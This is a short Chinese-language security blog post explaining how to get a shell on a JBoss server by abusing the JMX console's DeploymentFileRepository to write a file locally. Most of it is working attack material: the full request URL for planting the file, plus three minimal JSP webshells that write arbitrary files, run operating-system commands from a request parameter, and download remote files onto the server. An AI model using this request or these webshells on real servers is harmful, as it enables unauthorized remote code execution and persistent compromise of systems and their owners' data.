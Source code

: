 ```yaml
---
title: "JBoss 本地 Getshell"
date: 2018-08-13T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['jboss']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


Jboss 远程部署 getshell 有时候会爆 `org.jboss.web.tomcat.filters.ReplyHeaderFilter.doFilter` 的错误.

本地 getshell 不需要远程主机, 缺点是只能写特别小的 jsp 马, 太大可能会 400 或者 no response found.

<!--more-->

```
/jmx-console/HtmlAdaptor?action=invokeOpByName&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=upload5warn.war&argType=java.lang.String&&arg1=shell&argType=java.lang.String&arg2=.jsp&argType=java.lang.String&arg3=CONTENT&argType=boolean&arg4=True
```

把 CONTENT 替换成要写入的内容, 注意先要进行一次 url 编码.

给出几个特别小的马.

写 shell, 传参 `?f=test.txt&t=helloworldT`

```
<% if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes()); %>
```

执行命令, 传参 `?i=whoami`

```
<%if(request.getParameter("i")!=null){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>
```

下载文件, 传参 `?f=test.txt&u=http://example.com/test.txt`

```
<% if(request.getParameter("u")!=null){java.io.InputStream in = new java.net.URL(request.getParameter("u")).openStream();byte[] b = new byte[1024];java.io.ByteArrayOutputStream baos = new java.io.ByteArrayOutputStream();int a = -1;while ((a = in.read(b)) != -1) {baos.write(b, 0, a);}new java.io.FileOutputStream(application.getRealPath("/")+"/"+ request.getParameter("f")).write(baos.toByteArray());}%>
```